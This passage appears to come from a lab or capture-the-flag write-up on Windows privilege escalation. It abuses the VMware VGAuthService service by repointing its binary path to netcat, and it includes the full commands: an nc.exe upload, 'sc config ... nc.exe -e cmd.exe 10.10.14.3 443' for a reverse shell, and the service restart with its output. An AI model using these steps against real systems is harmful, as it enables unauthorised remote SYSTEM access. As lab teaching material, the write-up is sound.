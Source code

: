 From all the services above, after searching them the one that stands out is VMware Guest Authentication Service (***VGAuthService***.exe) since this one handles user authentication between the host and the virtual machines. It appears to be associated with CVE-2022-22977

One common attack i found, was to change the binary path of the service, so we can make the service run a binary of our preference!

### Modifying and exploiting the service

1. First lets verify that we can write to the service’s directory:

```bash
icacls "C:\Program Files\VMware\VMware Tools\VMware VGAuth\VGAuthService.exe"
```

```bash
C:\Program Files\VMware\VMware Tools\VMware VGAuth\VGAuthService.exe BUILTIN\Administrators:(F)Everyone:(RX)NT AUTHORITY\SYSTEM:(F)

Successfully processed 1 files; Failed processing 0 files
```
it seems that we can write to it!

1. modify the service, replace the binary with netcat

We will replace the binary with netcat, in order to get a rev shell back to our machine

first upload `nc.exe` from evil-winrm
```bash
upload /home/ch3ckm8/Downloads/nc.exe
```

2. modify the binary path, to point to netcat, and then tell netcat to connect to your machine’s ip
```bash
sc config VGAuthService binPath="C:\Users\svc-printer\Documents\nc.exe -e cmd.exe 10.10.14.3 443"
sc stop VGAuthService
sc start VGAuthService
```

```bash
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe config VGAuthService binPath="C:\Users\svc-printer\Documents\nc.exe -e cmd.exe 10.10.14.3 443"
[SC] ChangeServiceConfig SUCCESS

*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe stop VGAuthService

SERVICE_NAME: VGAuthService
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 1  STOPPED
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe start VGAuthService
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.
```
Don’t worry about this error “The service did not respond to the start or control request in a timely fashion.” , it is expected
